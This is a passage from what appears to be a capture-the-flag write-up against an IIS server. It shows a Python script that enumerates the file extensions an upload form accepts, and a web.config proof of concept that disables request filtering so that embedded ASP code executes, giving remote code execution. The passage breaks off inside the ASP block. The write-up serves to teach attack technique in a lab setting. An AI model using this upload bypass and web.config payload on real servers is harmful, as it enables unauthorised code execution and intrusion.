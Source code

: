 ```python
            '__VIEWSTATE' : viewState,
            '__EVENTVALIDATION' : eventValidation,
            'btnUpload' : 'Upload'
            }

    uploadedFile = {'FileUpload1' : (f, 'test')}

    r = s.post(url, files=uploadedFile, data=postData)
    return r.text

print("[INFO] Allowed Extensions:")

for i in open(filename, 'r'):
    #print(i[:-1])
    response = upload('bigb0ss.' + i[:-1])
    if "successfully" in response:
        print("[+] %s" % i.strip())
```

It resulted in identifying that `config` file extension is also allowed.

```console
$ python3 checker.py 
[INFO] Allowed Extensions:
[+] png
[+] jpg
[+] config
```

### web.config (RCE)

It turned out to be we can upload a `web.config` file and from [this post](https://soroush.secproject.com/blog/), we can find a POC script to cause RCE. This script will simple print out `3` if we could cause an RCE using the following `web.config` file:

>**NOTE**: The web.config file plays an important role in storing IIS7 (and higher) settings. It is very similar to a .htaccess file in Apache web server. Uploading a .htaccess file to bypass protections around the uploaded files is a known technique.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!-- ASP code comes here
<%
Response.write("-"&"->")
' it is running the ASP code if you can see 3 by opening the web.config file!
```